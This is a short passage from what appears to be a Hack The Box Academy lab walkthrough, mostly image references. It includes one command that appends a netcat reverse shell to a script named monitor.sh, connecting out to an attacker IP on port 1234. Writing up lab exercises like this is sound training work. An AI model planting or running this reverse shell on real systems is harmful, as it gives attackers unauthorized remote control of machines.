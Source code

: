 ![alt text](../assets/images/HTB_Academy_Getting_Started/image-48.png)

![alt text](../assets/images/HTB_Academy_Getting_Started/image-49.png)

I decide to append the reverse shell to the end of this file with:


echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.15.192 1234 > /tmp/f" >> monitor.sh


![alt text](../assets/images/HTB_Academy_Getting_Started/image-54.png)
